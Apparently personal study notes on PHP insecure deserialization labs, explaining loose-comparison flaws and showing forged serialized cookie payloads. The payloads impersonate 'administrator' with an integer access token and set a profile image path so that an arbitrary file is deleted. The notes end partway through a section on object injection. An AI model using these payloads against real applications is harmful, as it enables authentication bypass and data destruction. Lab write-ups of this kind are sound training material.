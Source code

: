 Unusually, this also works for any alphanumeric string that starts with a number. In this case, PHP will effectively convert the entire string to an integer value based on the initial number. The rest of the string is ignored completely. Therefore, `5 == "5 of something"` is in practice treated as `5 == 5`.

Likewise, on PHP 7.x and earlier the comparison `0 == "Example string"` evaluates to `true`, because PHP treats the entire string as the integer `0`.

Consider a case where this loose comparison operator is used in conjunction with user-controllable data from a deserialized object. This could potentially result in dangerous logic flaws.
```php
$login = unserialize($_COOKIE) 
if ($login['password'] == $password) { 
// log in successfully 
}
```


>**Note**
>In PHP 8 and later, the `0 == "Example string"` comparison evaluates to `false` because strings are no longer implicitly converted to `0` during comparisons. As a result, this exploit is not possible on these versions of PHP.
>The behavior when comparing an alphanumeric string that starts with a number remains the same in PHP 8. As such, `5 == "5 of something"` is still treated as `5 == 5`.

![[file-20250515235114250.png]]
So from the above serialized object we can see that 
```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"hz2dv2cmwrgqwb995hz91gd6k4tytm4s";}
```

- Update the length of the `username` attribute to `13`.
- Change the username to `administrator`.
- Change the access token to the integer `0`. As this is no longer a string, you also need to remove the double-quotes surrounding the value.
- Update the data type label for the access token by replacing `s` with `i`.
```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```
![[file-20250516000402061.png]]

### Using application functionality to exploit insecure deserialization
![[file-20250517194645952.png]]
![[file-20250517193949573.png]]

Change the cookie to value path to delete `morale.txt` because the user's profile picture is deleted by accessing the file path in the `$user->image_location` attribute. 
If this `$user` was created from a serialized object, an attacker could exploit this by passing in a modified object with the `image_location` set to an arbitrary file path. Deleting their own user account would then delete this arbitrary file as well.
```php
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"gn4u049cpowmxdoa32kt2ovgct5o0k64";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```
### Arbitrary object injection in PHP
![[file-20250517204556827.png]]
Navigate to the URI `https://<LAB-ID>/libs/CustomTemplate.php~` but notice the `~` to the filename that retrieves an editor-generated backup file.
```php
<?php

class CustomTemplate {
    private $template_file_path;
```